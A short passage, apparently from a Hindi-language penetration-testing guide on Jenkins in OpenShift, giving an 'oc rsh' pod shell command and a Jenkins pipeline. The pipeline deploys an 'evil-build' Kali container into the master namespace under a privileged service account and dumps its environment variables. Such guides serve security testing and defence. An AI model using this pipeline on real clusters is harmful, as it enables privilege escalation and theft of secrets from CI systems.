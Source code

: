 ```bash
oc rsh pod_name -c container_name
```
यदि मास्टर नोड पॉड उसी नामस्थान में नहीं चल रहा है जैसे कि कार्यकर्ता, तो आप मास्टर नामस्थान को लक्षित करके समान हमले करने की कोशिश कर सकते हैं। मान लीजिए कि इसे _jenkins-master_ कहा जाता है। ध्यान रखें कि सेवा खाता master-sa _jenkins-master_ नामस्थान में होना चाहिए (और यह _worker-ns_ नामस्थान में नहीं हो सकता है)
```groovy
pipeline {
stages {
stage('Process pipeline') {
agent {
kubernetes {
yaml """
metadata:
namespace: jenkins-master
spec:
serviceAccount: master-sa
containers:
- name: evil-build
image: myregistry/mykali_image:1.0
imagePullPolicy: IfNotPresent
command:
- sleep
args:
- 1d
"""
}
}
stages {
stage('Say hello') {
steps {
echo 'Hello from a docker container'
sh 'env'
}
}
}
}
}
}
